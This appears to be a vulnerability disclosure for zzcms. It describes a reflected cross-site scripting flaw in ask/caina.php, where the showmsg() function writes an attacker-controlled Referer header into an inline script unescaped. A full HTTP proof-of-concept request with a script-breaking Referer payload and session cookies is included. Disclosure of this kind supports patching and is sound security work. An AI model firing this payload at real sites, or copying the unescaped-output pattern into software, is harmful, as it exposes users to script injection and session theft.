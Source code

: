 ### ask/caina.php frontend reflective xss

visit/ask/caina.php
Send POC

```java
POST /ask/caina.php HTTP/1.1
Host: zzcms:8786
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=4pj41bdnhl1msnbrl2lljv1iqm; __51cke__=; xywpwx_bakusername=admin; xywpwx_snsjjssbdvqm=aca496e77ae7ceff46c2f8e72f4235d5; qebak_efourcheck=be67da7f3e3c39cd439799a20c67f8b4; XDEBUG_SESSION=PHPSTORM; xywpwx_bakrnd=zPwzzERUvdP4; xywpwx_loginebakckpass=03269d863bac377ff8cfb81722e356e3; xywpwx_baklogintime=1724589372; __tins__713776=%7B%22sid%22%3A%201724603456590%2C%20%22vd%22%3A%206%2C%20%22expires%22%3A%201724605579607%7D; __51laig__=34
Connection: keep-alive
Referer: ";alert(123);</script><script>"
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

![image-20240827011526251](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240827011526251.png)

![image-20240827011440179](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240827011440179.png)

Code Analysis

Locate the ask/caina.php

```java
showmsg('采纳成功',$_SERVER['HTTP_REFERER']);
```

where our $_SERVER['HTTP_REFERERER'] can be controlled by the Referer header

showmsg function

```php
function showmsg($msg,$zc_url = 'back',$exit=''){
   $str="<!DOCTYPE html>";//有些文件不能设文件头
   $str.="<meta http-equiv='Content-Type' content='text/html; charset=utf-8'>";
   if($zc_url && $zc_url!='back' && $zc_url!='null'){
   $str.="<script>alert('$msg');parent.location=\"$zc_url\";</script>";
   }elseif( $zc_url=='null'){
   $str.="<script>alert(\"$msg\")</script>";
   }else{
   $str.="<script>alert(\"$msg\");history.back();</script>";
   }
   echo $str;
   //if ($exit=='exit'){
   exit;//必须强制退出
   //}
}
```

Reflective xss injection caused by outputting $str directly to the html page.
